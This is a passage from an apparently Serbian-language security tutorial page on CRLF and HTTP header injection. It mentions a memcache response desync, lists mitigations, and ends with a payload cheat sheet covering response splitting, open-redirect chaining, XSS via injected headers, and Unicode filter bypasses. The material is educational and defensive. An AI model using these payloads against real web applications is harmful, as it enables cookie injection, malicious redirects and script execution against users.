Pored toga, istraživači su takođe otkrili da mogu da dezinkuju odgovore memcache-a da pošalju IP adrese i portove napadačima korisnicima čije imejl adrese napadač nije znao:

<figure><img src="../.gitbook/assets/image (40).png" alt="https://assets-eu-01.kc-usercontent.com/d0f02280-9dfb-0116-f970-137d713003b6/c6c1f3c4-d244-4bd9-93f7-2c88f139acfa/body-3f9ceeb9-3d6b-4867-a23f-e0e50a46a2e9_14.png?w=1322&#x26;h=506&#x26;auto=format&#x26;fit=crop"><figcaption></figcaption></figure>

### Kako sprečiti CRLF / HTTP ubacivanja zaglavlja u veb aplikacijama

Da biste umanjili rizike od CRLF (Carriage Return i Line Feed) ili HTTP ubacivanja zaglavlja u veb aplikacijama, preporučuju se sledeće strategije:

1. **Izbegavajte direktni korisnički unos u zaglavlja odgovora:** Najsigurniji pristup je da se suzdržite od direktnog uključivanja korisničkih unosa direktno u zaglavlja odgovora.
2. **Kodiranje specijalnih karaktera:** Ako izbegavanje direktnog korisničkog unosa nije izvodljivo, obezbedite korišćenje funkcije posvećene kodiranju specijalnih karaktera poput CR (Carriage Return) i LF (Line Feed). Ova praksa sprečava mogućnost CRLF ubacivanja.
3. **Ažurirajte programski jezik:** Redovno ažurirajte programski jezik koji se koristi u vašim veb aplikacijama na najnoviju verziju. Odaberite verziju koja inherentno zabranjuje ubacivanje CR i LF karaktera unutar funkcija zaduženih za postavljanje HTTP zaglavlja.

### ŠIFARNIK

[Šifarnik odavde](https://twitter.com/NinadMishra5/status/1650080604174667777)

```
1. HTTP Response Splitting
• /%0D%0ASet-Cookie:mycookie=myvalue (Check if the response is setting this cookie)

2. CRLF chained with Open Redirect
• //www.google.com/%2F%2E%2E%0D%0AHeader-Test:test2
• /www.google.com/%2E%2E%2F%0D%0AHeader-Test:test2
• /google.com/%2F..%0D%0AHeader-Test:test2
• /%0d%0aLocation:%20http://example.com

3. CRLF Injection to XSS
• /%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23
• /%3f%0d%0aLocation:%0d%0aContent-Type:text/html%0d%0aX-XSS-Protection%3a0%0d%0a%0d%0a%3Cscript%3Ealert%28document.domain%29%3C/script%3E

4. Filter Bypass
• %E5%98%8A = %0A = \u560a
• %E5%98%8D = %0D = \u560d
• %E5%98%BE = %3E = \u563e (>)
• %E5%98%BC = %3C = \u563c (<)
• Payload = %E5%98%8A%E5%98%8DSet-Cookie:%20test
```
